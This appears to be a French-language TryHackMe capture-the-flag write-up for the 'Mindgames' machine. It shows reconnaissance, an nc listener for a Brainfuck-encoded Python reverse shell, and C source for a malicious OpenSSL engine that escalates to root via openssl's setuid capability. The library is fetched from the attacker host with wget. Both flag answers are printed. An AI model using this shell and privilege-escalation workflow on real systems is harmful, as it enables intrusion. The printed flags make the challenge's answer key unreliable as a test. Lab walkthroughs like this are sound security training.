



# Mindgames #

## Task 1 Capture the flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.56.221 mindgames.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A mindgames.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-01 22:40 CEST
Nmap scan report for mindgames.thm (10.10.56.221)
Host is up (0.033s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/1%OT=22%CT=1%CU=35154%PV=Y%DS=2%DC=T%G=Y%TM=612FE79A
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   32.35 ms 10.9.0.1
2   32.50 ms mindgames.thm (10.10.56.221)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 605.19 seconds
```

Ici on a deux dervices  : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.    



On voit sur la page principale du code brainfucking, et un interprétateur, mais pas grand chose d'autre.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo echo '+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.' > bf
tim@kali:~/Bureau/tryhackme/write-up$ beef bf
print("Hello, World")
```

On décode le code brainfuck avec un interprétateur et on trouve un print\(\), ce qui est du python.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter sur le revershell.   



On encode un reverse shell python en brainfuckup.   



On le copie le code dans l'interprétateur BrainFuck de la page principle.

**User flag.**

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.242.245] 48990
$ id
id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
$ cat /home/mindgames/user.txt
cat /home/mindgames/user.txt
thm{411f7d38247ff441ce4e134b459b6268}
```

On obtient un shell.
On voit que l'on a les droit mindgames.   
On lit le fichier user.txt dans le répertoire mindgames.  

La réponse est : thm{411f7d38247ff441ce4e134b459b6268}   


```
getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```

On voit que openssl a la capacité d'être setuid.    

On chargeant une libraire modifié on peut faire exécuter un shell avec openssl.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat lib-shell.c 
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    system("/bin/sh");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()

tim@kali:~/Bureau/tryhackme/write-up$ gcc -fPIC -o lib-shell.o -c lib-shell.c 
lib-shell.c: In function ‘bind’:
lib-shell.c:4:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    4 |     setuid(0);
      |     ^~~~~~
tim@kali:~/Bureau/tryhackme/write-up$ gcc -shared -o lib-shell.so -lcrypto lib-shell.o 

tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

----------------------------
cd /tmp
$ wget http://10.9.228.66:8000/lib-shell.so -nv
wget http://10.9.228.66:8000/lib-shell.so -nv
2021-09-02 08:54:50 URL:http://10.9.228.66:8000/lib-shell.so [16216/16216] -> "lib-shell.so" [1]

```

On compile notre librairie qui contient comme charge utile un shell.   
On la transfert sur la machine cible.   

```bash
$ openssl req -engine ./lib-shell.so
openssl req -engine ./lib-shell.so
# id
id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
```

On charge notre librairie avec openssl et on obtient un shell root.    

**Root flag.**

# cat /root/root.txt

```bash
cat /root/root.txt
thm{1974a617cc84c5b51411c283544ee254}
```

On lit le fichier root.txt dans le répertoire root.  
On a notre flag.  

La réponse est : thm{1974a617cc84c5b51411c283544ee254}    

